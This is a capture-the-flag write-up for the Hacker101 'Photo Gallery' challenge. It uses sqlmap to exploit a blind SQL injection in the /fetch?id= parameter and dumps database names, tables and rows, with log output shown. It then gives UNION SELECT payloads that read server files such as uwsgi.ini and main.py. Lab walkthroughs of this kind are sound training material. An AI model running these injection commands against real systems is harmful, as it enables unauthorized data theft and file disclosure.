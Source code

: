 # Photo Gallery

## Description
This write up will show how to solve the CTF for "Photo Gallery"

**Difficulty:** Moderate

Hints are not being provided for multiple reasons:</br>
1. It is better to figure it out yourself and I don't want to give spoilers, especially if you don't need one
2. It is only possible to get a hint every once in a while, i.e. it is not possible to get all the hints one after another. This will take too much time to "wait" for all the hints

## Solution 1st flag
The pictures are retrieved with /fetch?id=1, 2, or 3, however, 3 doesn't show any picture data.</br>
As due to id=x, it means something is retrieved, probably from a database.</br>
Using SQLMap, it shows that id might be vulnerable with a boolean-based blind and/or a time-based blind SQLi.</br>

First enumerate the database: `sqlmap -u https://ca0d9cc72e5f2c20b69dd920042e6bdb.ctf.hacker101.com/fetch?id=1 --dbs`</br>
This will return the following:</br>
```
[23:11:59] [INFO] retrieved: 4
[23:12:07] [INFO] retrieved: information_schema
[23:15:22] [INFO] retrieved: level5
[23:16:43] [INFO] retrieved: mysql
[23:17:34] [INFO] retrieved: performance_schema
available databases [4]:
[*] information_schema
[*] level5
[*] mysql
[*] performance_schema
```

level5 will be the database name<br>

As a second step, try to enumerate the tables: `sqlmap -u https://ca0d9cc72e5f2c20b69dd920042e6bdb.ctf.hacker101.com/fetch?id=1 --method=GET --dump -D level5`</br>
There are 2 tables:</br>
```
[23:34:11] [INFO] retrieved: 2
[23:34:22] [INFO] retrieved: albums
[23:35:19] [INFO] retrieved: photos
```

In the same step, it enumerate the columns in the tables, first photos:</br>
```
[23:36:19] [INFO] fetching columns for table 'photos' in database 'level5'
[23:36:19] [INFO] retrieved: 4
[23:36:29] [INFO] retrieved: id
[23:36:44] [INFO] retrieved: title
[23:37:25] [INFO] retrieved: filename
[23:38:31] [INFO] retrieved: parent
```

It will continue, with showing the contents of the table photos:</br>
```
[23:39:31] [INFO] fetching entries for table 'photos' in database 'level5'
[23:39:31] [INFO] fetching number of entries for table 'photos' in database 'level5'
[23:39:31] [INFO] retrieved: 3
[23:39:39] [INFO] retrieved: files/adorable.jpg
[23:42:43] [INFO] retrieved: 1
[23:42:57] [INFO] retrieved: 1
[23:43:05] [INFO] retrieved: Utterly adorable
[23:46:02] [INFO] retrieved: files/purrfect.jpg
[23:49:39] [INFO] retrieved: 2
[23:49:55] [INFO] retrieved: 1
[23:50:04] [INFO] retrieved: Purrfect
[23:51:31] [INFO] retrieved: db0a95f3309e376a60e8050bad27fc4e9aff35d6b876dcefe6ac5933ad300068
[00:04:22] [INFO] retrieved: 3
[00:04:37] [INFO] retrieved: 1
[00:04:50] [INFO] retrieved: Invisible
```

And part of that information is that it contains the flag!

## Solution 2nd flag
The third hint, states to look at a config file for the uwsgi-nginx-flask-docker image.</br>
This will be the uwsgi.ini file, hence running the following endpoint in Burp: `/fetch?id=0+UNION+SELECT+'uwsgi.ini`.</br>

This will show the following:
```
[uwsgi]
module = main.py
callable = app
```

Main.py is the main application, hence we can run the same endpoint, but with main.py: `/fetch?id=0+UNION+SELECT+'main.py`.</br>
At the bottom it will show the flag.

